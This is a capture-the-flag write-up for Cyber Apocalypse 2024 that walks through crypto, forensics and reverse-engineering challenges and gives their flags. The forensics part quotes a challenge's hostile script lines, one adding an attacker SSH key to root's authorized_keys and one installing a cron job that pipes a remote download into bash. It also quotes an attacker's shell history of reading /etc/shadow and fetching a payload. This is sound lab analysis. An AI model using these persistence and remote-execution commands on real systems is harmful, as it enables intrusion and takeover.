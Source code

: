 ```yaml
---
author: pl4int3xt
layout: post
title: Cyber Apocalypse 2024
date: '2024-03-09'
description: "Cyber apocalypse ctf 2024 Hacker royale"
useRelativeCover: true
cover: cover.jpg
categories: [Capture The Flag]
---
```


## Crypto
### Makeshift

We are provided with a python script that was used to encrypt the flag. We need understand the script inorder to reverse the process.

```python
from secret import FLAG

flag = FLAG[::-1]
new_flag = ''

for i in range(0, len(flag), 3):
    new_flag += flag[i+1]
    new_flag += flag[i+2]
    new_flag += flag[i]

print(new_flag)
```

* `flag = FLAG[::-1]` This line reverses the flag using slicing notation in python.
* `for i in range(0, len(flag), 3):` The for loop works on 3 characters in each iteration from the reversed flag
* `new_flag += flag[i+1]` Appends the character at the index `i+1` of the reversed flag string to the `new_flag`
* `new_flag += flag[i+2]` Appends the character at the index `i+2` of the reversed flag string to the `new_flag`
* `new_flag += flag[i]` Appends the character at the index `i` of the reversed flag string to the `new_flag`

The following script rearranges everything back to the original order

```python
encrypted_flag = "!?}De!e3d_5n_nipaOw_3eTR3bt4{_THB"
flag = ''

for i in range(0, len(encrypted_flag), 3):
    flag += encrypted_flag[i+2]
    flag += encrypted_flag[i]
    flag += encrypted_flag[i+1]

original_flag = flag[::-1]
print(original_flag)
```

Running the script we get the flag

```shell
pl4int3xt@archlinux ~/D/cyberapocalypse> python3 decrypt.py
HTB{4_b3tTeR_w3apOn_i5_n3edeD!?!}
```
## Forensics
### Urgent
The .eml file has a base64 encoded body. Using cyberchef to decode we get a url encoded string 

![img-description](1.png)

Further url decoding the string we get the flag

![img-description](2.png)

### It has begun

The first part of the flag is in reversed format and located at the end of the echo string in the script.sh file

```sh
echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
```

the other part of the flag is base64 encoded located after the `bash -c` command

```sh
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

decoding the string we get the second part

```sh
pl4int3xt@archlinux ~> echo 'NG5kX3kwdVJfR3IwdU5kISF9' | base64 -d
4nd_y0uR_Gr0uNd!!}
```

### An unusual sighting

We'll use the SSH Logs and the bash history files to answer the following questions to get the flag


#### What is the IP Address and Port of the SSH Server (IP:PORT)

From the `ssh.log` file we discover the ip to be `100.107.36.130` and the port `2221`

```
[2024-01-28 15:24:23] Connection from 100.72.1.95 port 47721 on 100.107.36.130 port 2221 rdomain ""
```
#### What time is the first successful Login

Checking on the `ssh.log` file we get the first time a password was accepted was on `2024-02-13 11:29:50`

```
[2024-02-13 11:29:50] Accepted password for root from 100.81.51.199 port 63172 ssh2
```
#### What is the time of the unusual Login

The challenge had a note on operating hours `Note: Operating Hours of Korp: 0900 - 1900`. We need to look a login attempt outside the operating hours. `2024-02-19 04:00:14`

```
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2
```
#### What is the Fingerprint of the attacker's public key

on the `ssh.log` file we can see the attacker's public key `OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4`

```
[2024-02-19 04:00:14] Failed publickey for root from 2.67.182.119 port 60071 ssh2: ECDSA SHA256:OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4
```
#### What is the first command the attacker executed after logging in

#### What is the final command the attacker executed before logging out

The `bash_history.txt` file has all the commands run on the server. We need to check the commands run at the time the attacker logged in `2024-02-19 04:00:18`

```
[2024-02-19 04:00:18] whoami
[2024-02-19 04:00:20] uname -a
[2024-02-19 04:00:40] cat /etc/passwd
[2024-02-19 04:01:01] cat /etc/shadow
[2024-02-19 04:01:15] ps faux
[2024-02-19 04:02:27] wget https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O /tmp/latest_iproute.tar.gz
[2024-02-19 04:10:02] tar xvf latest.tar.gz
[2024-02-19 04:12:02] shred -zu latest.tar.gz
[2024-02-19 04:14:02] ./setup
```

Finally we get our flag

```
[+] Here is the flag: HTB{B3sT_0f_luck_1n_th3_Fr4y!!}
```

## Reverse 
### LootStash

Hold your horses, before spamming 'strings' command let the binary whisper its secrets in the language of assembly and the flag will unfold its tale in the dance of opcodes pirouetting into your arms. 😄 😄 😄.Always seek to understand the binary before running strings. `#pl4int3xt😄`
```c
undefined8 main(void)

{
  int iVar1;
  time_t tVar2;
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  puts("Diving into the stash - let\'s see what we can find.");
  for (local_c = 0; local_c < 5; local_c = local_c + 1) {
    putchar(0x2e);
    sleep(1);
  }
  iVar1 = rand();
  printf("\nYou got: \'%s\'. Now run, before anyone tries to steal it!\n",
         *(undefined8 *)(gear + (long)(int)((ulong)(long)iVar1 % 0x7f8 >> 3) * 8));
  return 0;
}
```

```shell
pl4int3xt@archlinux ~/D/c/rev_lootstash> ./stash
Diving into the stash - let's see what we can find.
.....
You got: 'Snowfall, Aspect of the Occult'. Now run, before anyone tries to steal it!
```

The binary gets the current time and stores it in the variable, it then seeds the random number generator `(rand())` with the current time. This helps to generate different random numbers in each run of the program. The random strings are coming from the gear array. This means that they are all stored at the `.data` section of the binary. Finally let's run strings and grep for the flag.

```shell
pl4int3xt@archlinux ~/D/c/rev_lootstash> strings stash | grep 'HTB'
HTB{n33dl3_1n_a_l00t_stack}
```
![img-description](cyber-apocalypse-2024.png)